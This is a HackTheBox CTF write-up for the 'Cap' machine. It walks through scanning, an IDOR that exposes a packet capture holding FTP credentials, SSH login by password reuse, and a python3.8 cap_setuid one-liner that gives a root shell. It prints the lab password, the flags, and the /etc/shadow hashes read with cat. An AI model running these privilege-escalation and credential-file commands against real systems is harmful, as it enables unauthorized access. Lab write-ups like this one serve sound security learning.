---
Category:
  - B2R
Difficulty: Easy
Platform: HackTheBox
Status: 3. Complete
tags:
  - .pcap
  - IDOR
  - cap_setuid-privesc
  - credentials-reuse
  - Linux
---
# Resolution summary

>[!summary]
>- Web application analyze and let **download .pcap file** containing packet traffic against the target.
>- An **insecure direct object reference** vulnerability allows to download the first pcap file (0.pcap) containing **FTP clear text credentials**.
>- python3.8 has **setuid** capabilities, allowing to set an arbitrary uid value and spawn a shell

## Improved skills

- Exploit Insecure Direct Object Reference vulnerabilities
- Analyze traffic packets
- Exploit cap_setuid to elevate privileges

## Used tools

- nmap
- gobuster
- burpsuite
- wireshark / tcpdump

---

# Information Gathering

Scanned all TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Cap]
└─$ sudo nmap -sS -p- 10.10.10.245 -v -Pn -oN scans/all-tcp-ports.txt
...
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
```

Enumerated open TCP ports:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Cap]
└─$ sudo nmap -sV -sC -sT -p21,22,80 -Pn -oN scans/open-tcp-ports.txt 10.10.10.245
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-06 06:08 EDT
Nmap scan report for 10.10.10.245
Host is up (0.054s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
| fingerprint-strings:
|   FourOhFourRequest:
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Sun, 06 Jun 2021 10:16:07 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 06 Jun 2021 10:16:02 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 19386
|     <!DOCTYPE html>
|     <html class="no-js" lang="en">
|     <head>
|     <meta charset="utf-8">
|     <meta http-equiv="x-ua-compatible" content="ie=edge">
|     <title>Security Dashboard</title>
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <link rel="shortcut icon" type="image/png" href="/static/images/icon/favicon.ico">
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     <link rel="stylesheet" href="/static/css/font-awesome.min.css">
|     <link rel="stylesheet" href="/static/css/themify-icons.css">
|     <link rel="stylesheet" href="/static/css/metisMenu.css">
|     <link rel="stylesheet" href="/static/css/owl.carousel.min.css">
|     <link rel="stylesheet" href="/static/css/slicknav.min.css">
|     <!-- amchar
|   HTTPOptions:
|     HTTP/1.0 200 OK
|     Server: gunicorn
|     Date: Sun, 06 Jun 2021 10:16:02 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Allow: HEAD, GET, OPTIONS
|     Content-Length: 0
|   RTSPRequest:
|     HTTP/1.1 400 Bad Request
|     Connection: close
|     Content-Type: text/html
|     Content-Length: 196
|     <html>
|     <head>
|     <title>Bad Request</title>
|     </head>
|     <body>
|     <h1><p>Bad Request</p></h1>
|     Invalid HTTP Version &#x27;Invalid HTTP Version: &#x27;RTSP/1.0&#x27;&#x27;
|     </body>
|_    </html>
|_http-server-header: gunicorn
|_http-title: Security Dashboard
...
```

# Enumeration

## Port 80 - HTTP (gunicorn)

Browsed port 80:







During a scan:



Enumerated web components:



Enumerated web directories and files:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Cap]
└─$ gobuster dir -u http://10.10.10.245 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -o scans/p80-directories.txt -r -t 25 -q
/data                 (Status: 200) [Size: 19386]
/ip                   (Status: 200) [Size: 17459]
/capture              (Status: 200) [Size: 19386]
```

Download **.pcap** files: [http://10.10.10.245/data/3](http://10.10.10.245/data/3)


Link to the download:



Enumerated all the available download:



## Port 21 - FTP (No anonymous access)

Enumerated port 21:

```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Cap]
└─$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): ftp
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.

┌──(kali㉿kali)-[~/CTFs/HTB/box/Cap]
└─$ ftp 10.10.10.245
Connected to 10.10.10.245.
220 (vsFTPd 3.0.3)
Name (10.10.10.245:kali): anonymous
331 Please specify the password.
Password:
530 Login incorrect.
Login failed.
ftp> exit
221 Goodbye.
```

Possible exploits:



# Exploitation

## Password in .pcap file

Inspected **.pcap** n. 0 and extracted clear text credentials from FTP login:







>[!important]
>nathan   Buck3tH4TF0RM3!

## Password reuse

```bash
┌──(kali㉿kali)-[~/…/HTB/box/Cap/loot]
└─$ ssh nathan@10.10.10.245
The authenticity of host '10.10.10.245 (10.10.10.245)' can't be established.
ECDSA key fingerprint is SHA256:8TaASv/TRhdOSeq3woLxOcKrIOtDhrZJVrrE0WbzjSc.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.245' (ECDSA) to the list of known hosts.
nathan@10.10.10.245's password:
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-73-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jun  6 12:12:54 UTC 2021

  System load:           0.0
  Usage of /:            35.1% of 8.73GB
  Memory usage:          34%
  Swap usage:            0%
  Processes:             226
  Users logged in:       0
  IPv4 address for eth0: 10.10.10.245
  IPv6 address for eth0: dead:beef::250:56ff:feb9:ac8f

  => There are 4 zombie processes.

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Jun  6 09:41:31 2021 from 10.10.14.18
nathan@cap:~$ whoami && hostname && ifconfig
nathan
cap
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.245  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:ac8f  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:ac8f  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:ac:8f  txqueuelen 1000  (Ethernet)
        RX packets 652699  bytes 69774749 (69.7 MB)
        RX errors 0  dropped 65  overruns 0  frame 0
        TX packets 647071  bytes 158679109 (158.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 7164  bytes 549488 (549.4 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7164  bytes 549488 (549.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

# Privilege Escalation

## cap_setuid capability privilege escalation

Enumerated capabilities:

```bash
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

nathan@cap:~$ getcap /usr/bin/python3.8
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
```

[Linux Capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities#exploitation-example)

```bash
nathan@cap:/var$ id
uid=1001(nathan) gid=1001(nathan) groups=1001(nathan)
nathan@cap:/var$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
root@cap:/var# id && hostname && ifconfig
uid=0(root) gid=1001(nathan) groups=1001(nathan)
cap
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.245  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:ac8f  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:ac8f  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:ac:8f  txqueuelen 1000  (Ethernet)
        RX packets 949768  bytes 106709332 (106.7 MB)
        RX errors 0  dropped 65  overruns 0  frame 0
        TX packets 955802  bytes 495297172 (495.2 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 7926  bytes 608078 (608.0 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 7926  bytes 608078 (608.0 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```



# Trophy

>[!success]
>**User.txt**
>25077fe4fabc18e749adba8a15737176

>[!success]
>**Root.txt**
>337c746f67205406e43f712bcf0c3241


**/etc/shadow**

```bash
root@cap:/var# cat /etc/shadow | grep '\$'
root:$6$8vQCitG5q4/cAsI0$Ey/2luHcqUjzLfwBWtArUls9.IlVMjqudyWNOUFUGDgbs9T0RqxH6PYGu/ya6yG0MNfeklSnBLlOskd98Mqdm0:18762:0:99999:7:::
nathan:$6$R9uks4CNctqqxTOR$/PRd4MKFG5NUNxPkdvIedn.WGvkBh9zqcvCRRzgggky1Xcv7ZxTXfny0QmA.gZ/8keiXdblFB7muSeo2igvjk.:18762:0:99999:7:::
```